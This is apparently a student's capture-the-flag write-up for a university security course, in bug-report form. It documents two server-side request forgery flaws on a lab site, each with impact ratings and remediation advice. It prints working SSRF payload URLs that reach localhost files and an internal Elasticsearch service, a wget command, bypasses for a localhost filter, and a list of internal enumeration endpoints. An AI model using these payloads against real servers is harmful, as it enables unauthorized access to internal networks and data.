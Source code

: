 ```yaml
---
layout: post
title: COMP6843 - Extended Break 4
date: 2018-05-20
tags: ['tech']
---
```

# Server Side Request Forgery: Local Files
Target: https://ssrfsquared.ns.agency/

### Proof of Concept

1. Intercept the requests made between the front and back end of the site during the initial load
2. Notice that there is a request for `https://ssrfsquared.ns.agency/static?r=http%3A%2F%2F127.0.0.1%3A9447%2Fstyles.css`, which can also be confirmed by viewing the source of the page
3. This becomes an entry point for an attacker to probe the internal network
4. Some files return the same content when accessed externally or internally such as `index.html` or `styles.css`
5. When viewing `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/styles.css` there is a hint that something else is on the server
6. Logically we try `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/flag` and it gives us the flag  
   `(wget -qO- https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/flag)` 
```
 sectalks{i_wonder_what_else_is_running_locally}
 ```
Extra Info:  
- not sure why but `localhost` gives the message `big sorry, we broke localhost, try 127.0.0.1` but this can be circumvented by using the following: `127.0.0.1`, `0`, `Localhost` / `lOcAlHoSt` etc 


### Impact 
**P2 - High**

Attackers can access localhost and read files stored in the working directory of the application, which may contain data that is not meant for public viewing. In this case only static files are retrieved, but in a real world scenario an attacker may be able to find other files (eg. _.php_ files) which may lead to code execution. If combined with a directory traversal vulnerability, the attacker can also read any files in the entire filesystem with the right permissions.

### Remediation 

Avoid querying files directly through URL requests using localhost, or perform server-side validation on the URLs requested if it cannot be avoided. Any important files in the working directory should have their permissions set so that they are not viewable by the web application if not necessary _(Principal of Least Privilege)_.  
  
   
# Server Side Request Forgery: Local Services
Target: https://ssrfsquared.ns.agency/

### Proof of Concept

The search functionality of the site is powered by _Elastic Search_, which serves up different Phrack articles.
There is also a flag stored in the service somewhere, as searching for `FLAG` or `flag` would reveal
```
The flag is sectalks{REDACTED}
```
hinting that it should be accessed locally. 

1. By doing port enumeration via GET requests or simply by guessing common port numbers, we can find the service at  
   `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9200/`  
2. Utilizing the `_search` function we can search for the flag:  
   `https://ssrfsquared.ns.agency/static?r=http://0:9200/_search?q=sectalks`  returns :  
```
   {
  "took": 1,
  "timed_out": false,
  "_shards": {
    "total": 5,
    "successful": 5,
    "failed": 0
  },
  "hits": {
    "total": 1,
    "max_score": 8.236906,
    "hits": [
      {
        "_index": "phrack",
        "_type": "article",
        "_id": "976",
        "_score": 8.236906,
        "_source": {
          "content": "The flag is sectalks{ssrf_for_fun_and_profit}",
          "title": "Flag",
          "author": "sy + grc",
          "issue": 0,
          "number": 0
        }
      }
    ]
  }
}
```  

3. The flag can also be found by enumerating all phrack articles (Although not recommended)     
    `https://ssrfsquared.ns.agency/static?r=http://0:9200/phrack/article/976`  
   
Extra Info:  
- A lot of additional information can be found by executing any of the following commands 
```
http://0:9200/_cluster/settings
http://0:9200/_cluster/state
http://0:9200/phrack/article/14
http://0:9200/_tasks/
http://0:9200/_nodes?pretty=true
http://0:9200/_mapping
http://0:9200/_cat&?pretty=true
```

### Impact 
**P2 - High**

Attackers can enumerate port numbers and access services that are not public-facing, which might lead to the disclosure of data or unauthorized access to the internal network. This can allow for lateral movement or even worse privilege escalation, depending on the access controls within the internal network.

### Remediation

Similar to above, avoid sending requests to the internal network and to perform validation for requests if necessary. It is possible to implement a Web Application Firewall (WAF) but determined attackers may be able to bypass the WAF with specially crafted URLs (eg. by double encoding or using multibyte characters)

Elastic Search by itself does not support authentication so another method of solving this problem is to never assume the internal network is safe, and to install proper access controls on any/all internal services. 

